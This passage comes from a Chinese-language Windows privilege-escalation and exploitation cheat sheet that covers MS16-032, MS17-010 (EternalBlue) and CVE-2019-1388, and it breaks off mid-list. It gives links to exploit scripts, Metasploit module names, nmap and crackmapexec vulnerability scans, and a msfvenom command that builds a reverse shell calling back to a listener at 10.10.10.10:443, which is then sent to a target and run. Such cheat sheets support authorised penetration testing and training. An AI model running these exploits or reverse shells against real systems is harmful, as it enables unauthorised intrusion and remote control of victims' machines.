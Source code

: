 ### MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)

检查补丁是否安装：`wmic qfe list | findstr "3139914"`

```powershell
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```



### MS17-010（永恒之蓝）

使用以下nmap脚本或crackmapexec检查漏洞：`crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M ms17-010`。

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17–010 <ip_netblock>
```

利用`EternalRomance/EternalSynergy/EternalChampion`的Metasploit模块。

```powershell
auxiliary/admin/smb/ms17_010_command          MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB远程Windows命令执行
auxiliary/scanner/smb/smb_ms17_010            MS17-010 SMB RCE检测
exploit/windows/smb/ms17_010_eternalblue      MS17-010 EternalBlue SMB远程Windows内核池损坏
exploit/windows/smb/ms17_010_eternalblue_win8 MS17-010 EternalBlue SMB远程Windows内核池损坏，适用于Win8+
exploit/windows/smb/ms17_010_psexec           MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB远程Windows代码执行
```

如果您不能使用Metasploit且只需要一个反向Shell。

```powershell
git clone https://github.com/helviojunior/MS17-010

# 生成一个简单的反向Shell供使用
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```

### CVE-2019-1388

漏洞利用：https://packetstormsecurity.com/files/14437/hhupd.exe.html

要求：

- Windows 7
- Windows 10 LTSC 10240

在以下系统上失败：
